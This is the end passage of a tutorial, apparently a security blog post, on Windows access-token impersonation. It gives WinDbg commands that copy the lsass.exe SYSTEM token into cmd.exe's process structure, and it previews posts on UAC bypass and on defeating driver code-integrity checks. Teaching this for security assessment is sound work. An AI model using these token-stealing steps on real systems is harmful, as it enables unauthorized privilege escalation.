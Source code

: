 So how do we escalate our process to SYSTEM access? We just steal the token from another SYSTEM privileged process, such as lsass.exe, and splice this into our cmd.exe _EPROCESS_ using the following:

```
kd> !process 0 0 lsass.exe
kd> dq <LSASS_PROCESS_ADDRESS>+0x208 L1
kd> ? <LSASS_TOKEN_ADDRESS> & FFFFFFFF`FFFFFFF0
kd> !process 0 0 cmd.exe
kd> eq <CMD_EPROCESS_ADDRESS+0x208> <LSASS_TOKEN_ADDRESS>
```

To see what this looks like when run against a live system, I've created a quick demo showing cmd.exe being elevated from a low level user, to SYSTEM privileges.

[![](http://img.youtube.com/vi/wUIfTYSQOO4/0.jpg)](https://youtu.be/wUIfTYSQOO4)

Although this is purely an academic exercise, in further tutorials we will be looking at exploiting Kernel privilege escalation vulnerabilities using this exact technique.

### What's Next?

Hopefully this tutorial has given you a good introduction into the world of Windows access token impersonation, enough to start exploring just how this technology can be leveraged during an assessment.

As you probably will have noticed, the tools above require a bypass of UAC to be useful on an engagement. This is what we will be exploiting in our next tutorial, mainly how tools like "bypassuac" work and how we can achieve this without Metasploit.

Plus, I'm putting the final touches into a kernel exploit which, when executed, results in the removal of code integrity checks which block unsigned Windows drivers from being loaded. Whilst I don't plan on releasing the exploit portion of the code, we will look at code integrity and how this is enforced by the Windows kernel, and just how we can bypass this.

Other than that, I'm open to suggestions :)

### Credit where credit's due:

The below are a bunch of resources useful or recreated in this tutorial:

Token stealing - http://www.ntdsxtract.com/downloads/Token_stealing.pdf  
Token stealing via kernel debug - http://mcdermottcybersecurity.com/articles/x64-kernel-privilege-escalation  
Incognito: https://github.com/rapid7/meterpreter/tree/master/source/extensions/incognito  
GetSystem: https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/escalate/getsystem.rb
